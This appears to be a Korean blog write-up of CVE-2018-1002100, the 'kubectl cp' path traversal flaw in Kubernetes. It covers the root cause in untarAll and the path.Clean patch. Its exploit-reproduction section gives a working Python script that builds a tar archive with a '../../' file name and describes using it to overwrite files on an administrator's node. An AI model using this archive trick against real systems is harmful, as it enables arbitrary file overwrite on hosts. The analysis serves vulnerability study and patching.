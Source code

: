 ```yaml
---
layout: post
title: "CVE-2018-1002100"
date: 2021-12-28
categories: Kubernetes
tags: [kubernetes, cve]
---
```


# 개요

|취약한 버전|취약점 종류|취약점 설명|
|:---:|:---:|:-------:|
|kubernetes: ~v1.9.5|overwrite arbitrary local files|“kubectl cp” 명령어를 통해, 컨테이너에서 노드의 파일을 덮어쓸 수 있는 취약점|

# 배경지식

아래는 pkg/kubectl/cmd/cp.go 파일을 볼 때, 알아야 하는 함수들이다. 

path.join 함수는 입력된 경로들을 순차적으로 탐색했을 때, 나올 수 있는 하나의 경로를 반환하는 함수이다.

```
package main
import (
	"fmt"
	"path"
)

func main() {
	fmt.Println(path.Join("a", "/b", "/c"))
	fmt.Println(path.Join("a", "/b/c"))
	fmt.Println(path.Join("a/b", "/c"))

	fmt.Println(path.Join("a/b", "../../../xyz"))

	fmt.Println(path.Join("", ""))
	fmt.Println(path.Join("a", ""))
	fmt.Println(path.Join("", "a"))
}
```

위 코드의 실행 결과는 다음과 같다.

![](https://github.com/GroomPang/Research/blob/main/%EA%B7%B8%EB%A6%BC4.png?raw=true)

path.clean 함수는 입력된 경로와 동등한 가장 짧은 경로를 반환하는 함수이다.

```
package main
import (
	"fmt"
	"path"
)

func main() {
	paths := []string{
		"a/c",
		"a//c",
		"a/c/.",
		"a/c/b/..",
		"/../a/c",
		"/../a/b/../././/c",
		"",
	}
	for _, p := range paths {
		fmt.Printf("Clean(%q) = %q\n", p, path.Clean(p))
	}
}
```

위 코드의 실행 결과는 다음과 같다.

![](https://github.com/GroomPang/Research/blob/main/%EA%B7%B8%EB%A6%BC3.png?raw=true)

# Root Cause 분석

```
func untarAll(reader io.Reader, destFile, prefix string) error {
	entrySeq := -1

	// TODO: use compression here?
	tarReader := tar.NewReader(reader)
	for {
		header, err := tarReader.Next()
		if err != nil {
			if err != io.EOF {
				return err
			}
			break
		}
		entrySeq++
		mode := header.FileInfo().Mode()
		outFileName := path.Join(destFile, header.Name[len(prefix):])
		...
}
```

header.Name[len(prefix):]은 header.Name에서 prefix를 제외하고난 파일명이다.

위에서도 봤듯이 path.Join은 단순히 인자로 들어간 경로들을 차례로 접근했을 때, 하나의 단순화된 경로를 반환하는 함수이다. 즉, path traversal로 루트 디렉토리로 파고들어가는 것이 가능하다.

`kubectl cp mongodb:/something ./123`

- prefix: something
- destFile: ./123
- header.Name: 아카이브에 있는 파일/디렉토리 명
- outFileName: destFile과 header.Name에서 prefix를 제외하여 path.Join한 결과

→ 원래라면, prefix를 빼고, destFile을 상위 디렉토리로 하여 파일을 복사해오는 것이지만, path traversal이 일어나기 때문에, 상위 디렉토리로 올라가게 된다.

baseName: outFileName의 상위 디렉토리 경로

# Exploit 재연

```
#!/usr/bin/python3

import tarfile
import tempfile
import os
import base64

with tarfile.TarFile.open("sample.tar", "w") as tar:
  with tempfile.NamedTemporaryFile() as text:
    text.write(b"Hello World\n")
    text.flush()

    tar.add(text.name,
      arcname="../../../../../../../var/tmp/unexpected")

  tar.close()
```

위 파일은 sample.tar를 만드는 코드로, 위를 수행하면, sample.tar 아카이브가 만들어지는데, 이를 확인해보면 다음과 같다.

![](https://github.com/GroomPang/Research/blob/main/%EA%B7%B8%EB%A6%BC5.png?raw=true)

파일명을 자세히 보면, 상위 디렉토리로 계속 거슬러 올라가서 /var/tmp/unexpected 파일을 압축한 것임을 알 수 있다.

그리고, 컨테이너 내에서의 tar 파일을 지우고, 이를 쉘 스크립트 파일로 “cat sample.tar”을 하도록 만든다면, 쿠버네티스의 관리자가 공격자의 컨테이너를 대상으로 “kubectl cp” 명령어를 쳤을 때, 다음과 같이 공격에 성공할 수 있다.

![](https://github.com/GroomPang/Research/blob/main/%EA%B7%B8%EB%A6%BC6.png?raw=true)

# 패치 내용

```
// clean prevents path traversals by stripping them out.
// This is adapted from https://golang.org/src/net/http/fs.go#L74
func clean(fileName string) string {
	return path.Clean(string(os.PathSeparator) + fileName)
}

unc untarAll(reader io.Reader, destFile, prefix string) error {
	entrySeq := -1

	// TODO: use compression here?
	tarReader := tar.NewReader(reader)
	for {
		header, err := tarReader.Next()
		if err != nil {
			if err != io.EOF {
				return err
			}
			break
		}
		entrySeq++
		mode := header.FileInfo().Mode()
		outFileName := path.Join(destFile, clean(header.Name[len(prefix):]))
		baseName := path.Dir(outFileName)
		...
}
```

outFileName, 즉, 파일을 호스트에 덮어 쓸 때, path.Clean을 수행하였고, untarAll에서 해당 함수 한 번 호출하도록 업데이트한 이후, 1.9.6에서 1.13.4까지 이 패치가 지속되었다. 아래는 path.clean 함수의 수행 결과를 보여주는데, 이러한 조치가 path traversal을 막는 적절한 조치였다는 것을 확인할 수 있다.

```
package main

import (
        "fmt"
        "os"
        "path"
)

func clean(fileName string) string {
        return path.Clean(string(os.PathSeparator) + fileName)
}

func main() {
        fmt.Println(clean("../../../../../../../var/tmp/unexpected"))
```

![](https://github.com/GroomPang/Research/blob/main/%EA%B7%B8%EB%A6%BC7.png?raw=true)

# 참고자료

National Vulnerability Database, “CVE-2018-1002100 Detail”, [https://nvd.nist.gov/vuln/detail/CVE-2018-1002100](https://nvd.nist.gov/vuln/detail/CVE-2018-1002100)

Michael Hanselmann, “OpenShift Source-to-Image build privilege escalation to root”, [https://hansmi.ch/articles/2018-04-openshift-s2i-security](https://hansmi.ch/articles/2018-04-openshift-s2i-security)